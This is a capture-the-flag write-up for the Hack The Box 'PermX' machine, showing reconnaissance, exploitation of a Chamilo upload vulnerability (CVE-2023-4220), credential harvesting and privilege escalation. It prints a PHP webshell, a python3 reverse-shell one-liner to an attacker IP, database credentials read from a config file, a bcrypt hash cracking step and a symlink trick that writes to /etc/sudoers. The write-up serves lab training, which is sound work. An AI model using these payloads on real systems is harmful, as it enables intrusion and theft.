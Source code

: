 +++
title = 'Hack The Box: PermX'
date = 2024-11-08T13:43:52+02:00
draft = false
showpage = true
ctfcard = true
photoname = 'permx_cert.png'
ctf_name = 'PermX'
cert_path = 'https://www.hackthebox.com/achievement/machine/2124852/613'
+++

Let's scan the machine with nmap.
```bash
# Command
sudo nmap -sS -sV -sC -v -T4 10.10.11.23

# Output
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
```

Let's check the Http Server in browser. It seems then we try to access `http://10.10.11.23:80/` we get redirected to `http://permx.htb/`, but the page doesn't load. 

The server is likely configured to respond to requests only when they're made to a specific domain (in this case, `permx.htb`) This setup is common in virtual hosting, where multiple domains may be hosted on the same server, but each needs to be accessed by its domain name for the server to serve the correct website.

To access the website, we need to modify the `etc/hosts` file. This way the browser skips the DNS lookup (to resolve the Ip Address, `10.10.11.23`) and it directly gets us to the website.

```bash
sudo vim /etc/hosts

# Add this line
10.10.11.14     permx.htb
```
<br>

Now the website can load properly.
![alt](lab1.png)

By looking around, it doesn't to be anything interesting. Let's try directory enumeration with `gobuster`.

```bash
gobuster dir -u http://perm.htb/ -w /usr/share/wordlists/dirb/big.txt
```

But still the resulted pages are either restricted or not usefull.

Proceed to enumerate subdomains with `ffuf`.

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://permx.htb/ -H "Host: FUZZ.permx.htb"

# results
/www
/lms
```

The `/lms` subdomain is interesting, let's give it a try. Change again `/etc/hosts`.

```bash
sudo vim /etc/hosts

# Modify
10.10.11.14     lms.permx.htb
```

The application running on `lms.permx.htb` is `Chamilo`.

![alt](lab2.png)

With `Ctrl+U` we can take a look at the source code of the page.

![alt](lab3.png)

These are endpoints we can check to gather more information about the application.

After inspection at `http://lms.permx.htb/app/Migrations/Schema/` we can see two folders indicating some version, problably of `Chamilo`, so the current one is `1.11`.

![alt](lab4.png)

Let's search online in case there is any exploit for the specific version of `Chamilo` we can use. 

After searching at Google, we found a vulnerability, `CVE-2023-4220`.

![alt](lab6.png)

By exploiting this vulnerability we could obtain remote code execution. There is also an exploit in github.

![alt](lab5.png)

Clone the repository and run the `.sh` script according to the documentation.

```bash
# we will use this code as webshell (webshell.php)
<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>

# run the script according to the documentation
./CVE-2023-4220.sh -f webshell.php -h http://lms.permx.htb/ -p 6464
```

Then file was uploaded and a listener has started at the port `6464`. Let's head to this url in the server `http://target.test/main/inc/lib/javascript/bigupload/files/` and run the `webshell.php` script.

Then at the end of the url add this payload

```bash
?cmd=python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.77",6464));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

We connected to the server! Type `bash` to open a `/bin/bash` terminal.

![alt](lab7.png)

By the `id` command, we can see that we are `www-data` user and that we do not have sudo permissions or any capabilities that we can leverage to escalate our previlages. So let's try to find out more about the application configurations,  databases etc.

By reading `Chamilo` docs, it seems that the configurations of the database connected to the application is at `config/configuration.php` file.

Open this file, `/var/www/chamilo/app/config/configuration.php`.

![alt](lab8.png)

So we got the credentials for the database (`chamilo:03F6lY3uXAP2bkW8`), which according to `Chamilo` documentation should be either `MySql` or `MariaDB`. Let's try with `MySql` first.

```bash
mysql -u chamilo -p
```
We connected successfully to `mysql`, now let's choose the `chamilo` database and search tables for usefull information like credentials.

![alt](lab9.png)

From the `show tables` results, `user` table seems interesting. Let's retreive its information. 

```bash
MariaDB [chamilo]> select * from user\G;
```

Note: Add `\G` at the end of any command to display the results in a vertical format. This can make it easier to read when there are many tables or long table names.

![alt](lab10.png)

We can use `john` to crack this password hash ([dcode](https://www.dcode.fr/cipher-identifier) identifies the encryption method as the `Crypt() Hashing Fuction`)

![alt](lab11.png)

```bash
# hash.txt content
$2y$04$1Ddsofn9mOaa9cbPzk0m6euWcainR.ZT2ts96vRCKrN7CGCmmq4ra

john --format=bcrypt hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

But no result. Let's see what other users are available and if we can ssh to them with the password we logged in to the database.

![alt](lab13.png)

So we have the user, `mtz`.

![alt](lab11.png)

Great, we got a foothold to the machine. Now we have to gain root previlages. With the command `sudo -l` we found that we can execute as root the `/opt/acl.sh` file.

![alt](lab14.png)

We can use this script to give additional permissions to any file in the `/home/mtz` directory but with no `..`, meaning no path traversal is permitted.

![alt](lab15.png)

Let's try adding the user `mtz` to the sudoers file by using a symling (symbolic link). First we need to check if `setfacl` can change permissions though the symlink to the original file.

```bash
ln -s /etc/sudoers sudoers # create the symlink

# give read/write permissions to the symlink
sudo /opt/acl.sh rw /home/mtz/sudoers

# add mtz to the original sudoers file though the symlink
echo "mtz ALL=(ALL:ALL) NOPASSWD: ALL" >> /home/mtz/sudoers

# now run bash as sudo to see if it worked
sudo bash #Success
```
![alt](lab16.png)

We have gained successfully root previleges and the flag!